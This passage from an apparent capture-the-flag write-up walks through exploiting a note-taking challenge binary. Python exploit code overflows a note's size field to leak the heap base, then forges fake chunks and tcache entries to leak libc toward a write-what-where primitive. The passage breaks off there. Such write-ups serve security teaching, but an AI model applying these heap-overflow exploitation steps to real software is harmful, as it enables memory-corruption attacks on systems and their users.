 We are in this situation :  
```
┌──────────────────────────────────────────────────┐
│        note (size : 0)                           │
├──────────────────────────────────────────────────┤
│ free'd note (size : 127)                         │
├──────────────────────────────────────────────────┤
│ free'd note (size : 0) (contains a heap pointer) │
└──────────────────────────────────────────────────┘
```

We now have to create a new note of size 127 and overwite its `note->size` with a higher value :  
```py
create_note(127)
# 0x111 : chunk size
# 0x1000 : note->size
edit_note(b"A"*127 + b"B"*117 + p64(0x111) + p32(0x1000) + p32(0xdead))
```

We now have this :  
```
┌──────────────────────────────────────────────────┐
│  BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB  │
├──────────────────────────────────────────────────┤
│ active note (size : 0x1000)                      │
├──────────────────────────────────────────────────┤
│ free'd note (size : 0) (contains a heap pointer) │
└──────────────────────────────────────────────────┘
```
We juste have have to call `show_note` to get our heap pointer :  
```py
heap_base = u64(show_note()[0x114:0x114+8]) - 0x10
success(f"heap base @ {hex(heap_base)}")
```


# Leaking libc base address
To get a libc address, we have to free a chunk that will end up in unsorted bin.  
So the idea is to create a large fake chunk of size 0x500 (large enough to not fit in a tcache bin), add padding to avoid `double free or corruption (!prev)` error caused by the lack of the `PREV_INUSE` bit in the next chunk, and then free this large chunk, malloc will let a libc pointer.

```py
info("leaking libc address...")
# will be used to leak data
create_note(0x200)
delete_note()

# its size will be changed with 0x500
create_note(127)
delete_note()

# padding to pass security checks (PREV_INUSE for next chunk)
create_note(0x80)
# add 2 entries in tcache bin 0x100 - will be useful for write-what-where
for _ in range(2):
    create_note(0x80)
    edit_note(b"A"*127 + b"B"*117 + p64(0x101))
    delete_note()

for _ in range(4):
    create_note(0x80)
create_note(0x91) # chunk with note->size=0x91, so if we interpret this value as a chunk size which have PREV_INUSE at the right place to pass security checks

create_note(127)
```
